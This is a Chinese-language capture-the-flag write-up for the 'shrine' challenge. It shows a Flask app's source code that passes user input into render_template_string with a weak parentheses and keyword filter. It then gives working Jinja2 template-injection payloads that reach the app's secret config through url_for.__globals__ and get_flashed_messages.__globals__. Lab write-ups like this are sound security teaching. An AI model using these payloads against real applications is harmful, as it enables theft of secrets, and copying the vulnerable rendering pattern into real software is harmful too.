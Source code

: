 # shrine

整理题目给的代码得到:

```py
import flask 
import os 
app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 

@app.route('/') 
def index(): 
    return open(__file__).read() 
    
@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
        blacklist = ['config', 'self'] 
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 
    return flask.render_template_string(safe_jinja(shrine)) 
    
if __name__ == '__main__': 
    app.run(debug=True)
```

在地址 `/shrine/` 后面存在 `SSTI` 注入. 尝试发现是 `Jinja2`:

```
http://111.200.241.244:50157/shrine/%7B%7B7*7%7D%7D 返回 49
http://111.200.241.244:50157/shrine/%7B%7B7*'7'%7D%7D 返回 7777777
```

根据 `source code` 我们知道 包括号 `(`, `)` 被过滤, `config` 和 `self` 把对应变量设为了 `None`.

找些资料没找到绕过 `filter ( 和 )` 的办法. 查看了 `write up`. [link](https://ctftime.org/writeup/10895). 原来可以用 `url_for` 或 `get_flashed_messages` 取到 `curent_app` 函数.

```
http://111.200.241.244:50157/shrine/%7B%7Burl_for%7D%7D 返回 <function url_for at 0x7fc2298b4c08>
http://111.200.241.244:50157/shrine/%7B%7Bget_flashed_messages%7D%7D 返回 <function get_flashed_messages at 0x7fc2298b4d70>
```

取到 `curent_app` 函数:

```
http://111.200.241.244:50157/shrine/%7B%7Burl_for.__globals__%7D%7D
http://111.200.241.244:50157/shrine/%7B%7Bget_flashed_messages.__globals__%7D%7D
```

`payload` 取得 `FLAG`:

```
http://111.200.241.244:50157/shrine/%7B%7Burl_for.__globals__['current_app'].config['FLAG']%7D%7D
http://111.200.241.244:50157/shrine/%7B%7Bget_flashed_messages.__globals__['current_app'].config['FLAG']%7D%7D
```

本题通过取得 `current_app` 函数获取 `FLAG`! `current_app` 拥有当前应用的所有环境.

一些可以使用的关键词:

```
url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config, self
```
